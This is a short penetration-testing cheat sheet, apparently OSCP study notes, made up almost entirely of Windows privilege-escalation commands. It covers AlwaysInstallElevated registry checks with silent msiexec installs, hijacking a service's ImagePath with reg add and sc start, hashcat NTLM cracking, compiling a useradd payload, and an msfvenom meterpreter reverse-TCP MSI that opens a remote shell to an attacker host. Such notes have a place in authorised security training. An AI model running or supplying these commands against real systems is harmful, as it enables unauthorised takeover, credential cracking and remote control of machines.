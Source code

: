 

-gobuster dir -u http://<ip>:80 -w <wordlist>  
 
-accesschk64.exe -wvu "<file location>"  
Registry PrivEsc-AlwaysInstallElevated  
reg query HKLM\Software\Policies\Microsoft\Windows\Installer  
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
msiexec /quiet /qn /i <msi location>
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d <malicious_filename> /f
sc start regsvc

-hashcat -m 1000 <hash> <wordlist>

msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f msi -o <filename>.msi
 
x86_64-w64-mingw32-gcc <filename>.c -o <filename>.exe
 
 #### Service Escalation
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)  
Download useradd.c to kali then compile - [https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c](https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c)  
x86_64-w64-mingw32-gcc useradd.c -o mycode.exe  
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\mycode.exe /f  
